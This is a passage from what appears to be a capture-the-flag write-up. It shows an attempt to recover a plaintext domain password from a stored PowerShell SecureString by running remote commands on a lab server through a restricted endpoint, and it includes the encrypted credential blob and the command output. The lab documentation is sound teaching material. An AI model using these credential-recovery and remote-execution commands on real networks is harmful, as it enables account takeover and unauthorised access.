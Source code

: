 That's because these secure password strings are encrypted with
information only available on the computer it was encrypted with as the
user it was encrypted with.

#### Failure #2

Then perhaps I can decrypt the password on ATSSERVER as imonks. The code
does work there:



    PS C:\Utils> Invoke-Command -ScriptBlock { C:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

    PSComputerName       : ATSSERVER
    RunspaceId           : fc350a1c-6b96-49a3-8901-0a3bf4c0b6c2
    ObjectId             : {1}\\ACUTE-PC01\root/Microsoft/Windows/Storage/Providers_v2\WSP_Volume.ObjectId="{8ccfebca-48c0-
                           11ec-9ffe-806e6f6e6963}:VO:\\?\Volume{0eed1261-0000-0000-0000-100000000000}\"
    PassThroughClass     : 
    PassThroughIds       : 
    PassThroughNamespace : 
    PassThroughServer    : 
    UniqueId             : \\?\Volume{0eed1261-0000-0000-0000-100000000000}\
    AllocationUnitSize   : 4096
    DedupMode            : 4
    DriveLetter          : 
    DriveType            : 3
    FileSystem           : NTFS
    ...[snip]...



I'll put all the commands I need into the `ScriptBlock`, and get the
plaintext password. Unfortunately, it doesn't work:



    PS C:\Utils> Invoke-Command -ScriptBlock { $securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c
    0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'; $passwd = $securepasswd | ConvertTo-SecureString; $creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd); $creds.GetNetworkCredential().Password } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    The term 'ConvertTo-SecureString' is not recognized as the name of a cmdlet, function, script file, or operable 
    program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
        + CategoryInfo          : ObjectNotFound: (ConvertTo-SecureString:String) [], CommandNotFoundException
        + FullyQualifiedErrorId : CommandNotFoundException
        + PSComputerName        : ATSSERVER
      
    The term 'New-Object' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the 
    spelling of the name, or if a path was included, verify that the path is correct and try again.
        + CategoryInfo          : ObjectNotFound: (New-Object:String) [], CommandNotFoundException                                                                                                                     
        + FullyQualifiedErrorId : CommandNotFoundException                                              
        + PSComputerName        : ATSSERVER
                           